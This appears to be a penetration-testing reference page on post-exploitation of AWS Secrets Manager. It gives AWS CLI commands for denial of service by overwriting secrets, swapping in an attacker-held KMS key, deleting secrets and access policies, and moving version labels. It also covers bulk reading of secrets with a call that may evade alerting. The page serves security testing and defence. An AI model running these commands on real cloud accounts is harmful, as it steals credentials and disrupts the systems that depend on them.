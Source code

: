 # AWS - Secrets Manager Post Exploitation

## Secrets Manager

For more information check:

[[../../aws-services/aws-secrets-manager-enum.md]]

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../../aws-privilege-escalation/aws-secrets-manager-privesc/README.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Note that previous values are also stored, so it's easy to just go back to the previous value.

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

If the attacker has the secretsmanager:UpdateSecret permission, they can configure the secret to use a KMS key owned by the attacker. That key is initially set up in such a way that anyone can access and use it, so updating the secret with the new key is possible. If the key was not accessible, the secret could not be updated.

After changing the key for the secret, the attacker modifies the configuration of their key so that only they can access it. This way, in the subsequent versions of the secret, it will be encrypted with the new key, and since there is no access to it, the ability to retrieve the secret would be lost.

It is important to note that this inaccessibility will only occur in later versions, after the content of the secret changes, since the current version is still encrypted with the original KMS key.

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

## secretsmanager:RestoreSecret

It is possible to restore a secret, which allows the restoration of secrets that have been scheduled for deletion, since the minimum deletion period for secrets is 7 days and the maximum is 30 days. Together with the secretsmanager:GetSecretValue permission, this makes it possible to retrieve their contents.

To recover a secret that is in the process of being deleted, you can use the following command:
```bash
aws secretsmanager restore-secret \
  --secret-id <Secret_Name>
```

## secretsmanager:DeleteResourcePolicy

This action allows deleting the resource policy that controls who can access a secret. This could lead to a DoS if the resource policy was configured to allow access to a specific set of users.

To delete the resource policy:
```bash
aws secretsmanager delete-resource-policy \
  --secret-id <Secret_Name>
```

## secretsmanager:UpdateSecretVersionStage

The states of a secret are used to manage versions of a secret. AWSCURRENT marks the active version that applications use, AWSPREVIOUS keeps the previous version so that you can roll back if necessary, and AWSPENDING is used in the rotation process to prepare and validate a new version before making it the current one.

Applications always read the version with AWSCURRENT. If someone moves that label to the wrong version, the apps will use invalid credentials and may fail.

AWSPREVIOUS is not used automatically. However, if AWSCURRENT is removed or reassigned incorrectly, it may appear that everything is still running with the previous version.

```bash
aws secretsmanager update-secret-version-stage \
  --secret-id <your-secret-name-or-arn> \
  --version-stage AWSCURRENT \
  --move-to-version-id <target-version-id> \
  --remove-from-version-id <previous-version-id>
```

### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Abuse the Secrets Manager BatchGetSecretValue API to retrieve up to 20 secrets in a single request. This can dramatically reduce API-call volume compared to iterating GetSecretValue per secret. If filters are used (tags/name), ListSecrets permission is also required. CloudTrail still records one GetSecretValue event per secret retrieved in the batch.

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Note that the permission `secretsmanager:BatchGetSecretValue` is not included enough to retrieve secrets, you also need `secretsmanager:GetSecretValue` for each secret you want to retrieve.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
  --secret-id-list <secret1> <secret2> <secret3> \
  --query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```

Exfiltrate by filters (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
  --filters Key=tag-key,Values=env \
  --max-results 20 \
  --query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
  --filters Key=tag-value,Values=prod \
  --max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
  --filters Key=name,Values=MyApp
```

Handling partial failures
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```

Impact
- Rapid “smash-and-grab” of many secrets with fewer API calls, potentially bypassing alerting tuned to spikes of GetSecretValue.
- CloudTrail logs still include one GetSecretValue event per secret retrieved by the batch.
